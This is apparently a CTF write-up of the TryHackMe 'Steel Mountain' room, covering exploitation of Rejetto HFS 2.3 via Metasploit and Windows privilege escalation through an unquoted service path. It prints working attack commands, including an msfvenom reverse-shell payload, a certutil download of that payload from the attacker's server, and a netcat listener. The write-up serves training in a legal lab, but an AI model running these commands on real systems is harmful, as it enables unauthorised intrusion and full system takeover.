 ```yaml
---
layout: post
title: "Steel Mountain"
date: 2022-10-21
categories: [Tryhackme, Easy-THM]
tags: [rejetto, RCE, metasploit, WinPEAS, msfvenom, Unquoted-Service-Path]
image: ../../assets/img/posts/steelmountain.png 

---
```


## Description

Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation, enumeration and learn a new technique to get Administrator access.

|**Room**|[Steel Mountain](https://tryhackme.com/room/steelmountain)|
|:---:|:---:|
|**OS**|Windows|
|**Difficulty**|Easy|
|**Creator**|[tryhackme](https://tryhackme.com/p/tryhackme)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.240.220 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/186901992-d627cb10-80b0-462f-8463-9bc29f4b4939.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sC -sV -p80,135,139,445,5985,8080,47001,49152,49153,49154,49155,49157,49163,49164 10.10.240.220 -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/186902052-de014c21-e883-4f5c-adfe-488910db09f2.png)
![image](https://user-images.githubusercontent.com/67465230/186902100-f71e610b-ba79-4cc2-831d-490e581e58d1.png)

Result scan shows that port 80 is running webserver, port 139,445 is running SMB service, port 5985 is running MS HTTPAPI service, port 8080 is running HttpFileServer service. 

Let's visit http://10.10.124.2,

![image](https://user-images.githubusercontent.com/67465230/186902197-ffd800b8-0062-4b7e-ab5a-609d1c6ab245.png)

We landed on the page where we can see the picture of employee of the month. But after enumerating this website like looking at it's source page, fuzzing it's hidden directories, checking what technologies are there on this website, but I couldn't find anything interesting. 

So I decided to visit to enumerate port 8080 by visiting http://10.10.124.2:8080,

![image](https://user-images.githubusercontent.com/67465230/186902273-5a9a5115-2612-4605-905f-66f81002af1e.png)

We landed on a page where HttpFileServer 2.3 is running and there is no file uploaded already on this website. 

So I decided to search for the service exploit on the ExploitDB for HttpFileServer 2.3, [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)](https://www.exploit-db.com/exploits/39161)

![image](https://user-images.githubusercontent.com/67465230/186902327-99facbb9-add3-4c75-b3be-0b957866dafe.png)

> CVE-2014-6287 : Rejetto HttpFileServer (HFS) is vulnerable to remote command execution attack due to a poor regex in the file ParserLib.pas. This module exploits the HFS scripting commands by using '%00' to bypass the filtering. This module has been tested successfully on HFS 2.3b over Windows XP SP3, Windows 7 SP1 and Windows 8.

There is also metasploit module for this exploit so I decided to first boot up the metasploit using `msfconsole -q` (neglecting the banner), and the search for the exploit,

```bash
search rejetto
```

![image](https://user-images.githubusercontent.com/67465230/186902360-c261f080-3ec6-4c94-9728-84146077fdef.png)

There is a module. We can use this module to exploit the machine which is vulnerable to this service. 

Let's use this exploit using,

```bash 
use exploit/windows/http/rejetto_hfs_hxec
```

![image](https://user-images.githubusercontent.com/67465230/186902401-79c19242-0a7b-4283-a335-7c70c1de83b2.png)

Let's set the `options`:
- **set rhosts 10.10.240.220**
- **set lhost tun0**
- **set rhosts 8080**

Running the exploit using `run` and we got a shell,

![image](https://user-images.githubusercontent.com/67465230/186902445-a849c7fb-ee4c-4d72-9907-c80acfa8ef99.png)

we got a meterpreter shell. Issuing `getuid` command and we got to know that we are STEELMOUNTAIN\bill user. 

Okay, so now we got a meterpreter shell so we can drop into shell (which is **cmd**, *default for windows*) using `shell` command. Navigating to bill user desktop, we got the user flag,

![image](https://user-images.githubusercontent.com/67465230/186902482-cae81dab-acdf-44d3-9eef-41ee9514a1db.png)

Now, that we are done with getting foothold process on machine, we now have to perform Privilege Escalation and to achieve this, we have to enumerate the system first. So Let's upload the winpeas executable on the target machine using,

```bash
upload /home/kali/vm_walkthrough/tryhackme/easy/steel_mountain/winpeas.exe
```

![image](https://user-images.githubusercontent.com/67465230/186902520-04e00b92-79e7-45bc-b78d-97513f5fb3bb.png)

winpeas.exe got uploaded on the machine. 

Let's run this executable using `winpeas.exe` and after scrolling down the result, we can see that there are **Unquoted Service Paths** and bill user has permissions to write data/ create files on the directory making it's easy for bill user to escalate privileges to Administrator user,

![image](https://user-images.githubusercontent.com/67465230/186902567-9b2bea4c-4be4-422b-835f-72405af8e4d5.png)

>What is Unquoted Service Path?
>>When a **service** is created whose **executable path** contains _spaces_ and isn’t enclosed within _quotes_, leads to a vulnerability known as Unquoted Service Path which allows a user to gain **SYSTEM** privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is).
>>In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.

Let's try another command to confirm that there is Unquoted Service Path,

```bash
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "C:\windows\\" |findstr /i /v """
```

![image](https://user-images.githubusercontent.com/67465230/186902601-c425e699-2fd6-4a06-97be-b95424d8ce37.png)

We  can see that there is indeed an Unquoted Service Path and we can abuse this vulnerability to escalate our privilege to Administrator user by creating the file with same name as directory just before the service executable, **Advanced.exe** and windows will execute it first before even executing the original ASCService.exe and since our malicious file gets executed first, we will get a reverse shell.

Let's create a malicious payload using msfvenom,

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.3.171 LPORT=5555 -f exe -o Advanced.exe
```

![image](https://user-images.githubusercontent.com/67465230/186902690-415368a2-9ef6-453d-a63a-7e1e5e1de5d1.png)

Our payload is generated and now is the time to transfer this payload into **C:\Program Files (x86)\IObit** directory. To transfer executable on target machine, first start the python server using `python3 -m http.server` and now we can use `certutil` command to transfer the payload,

```bash
certutil -urlcache -f http://10.9.3.171:8080/Advanced.exe Advanced.exe 
```

![image](https://user-images.githubusercontent.com/67465230/186902731-6f2610d9-8cfa-48dd-ae63-23cde210e8c3.png)

Our malicious payload gets transferred successfully on the target machine. 

Now, let's first start the netcat listener using `nc -nvlp 5555` and then let's stop the service using,

```bash
sc stop AdvancedSystemCareService9
```

![image](https://user-images.githubusercontent.com/67465230/186902771-0bc56016-86da-466b-8c98-3af99cc74ce4.png)

The service is stopped. 

Starting the service again,

```bash
sc start AdvancedSystemCareService9
```

![image](https://user-images.githubusercontent.com/67465230/186902809-5ba7ec77-daa8-495c-8921-11dc7d73fd70.png)

After starting the service again, we will get the reverse shell and issuing the `whoami` command, we get to know that we are system user,

![image](https://user-images.githubusercontent.com/67465230/186902861-9c36e18f-3345-4182-a6c3-207bfa4f109c.png)
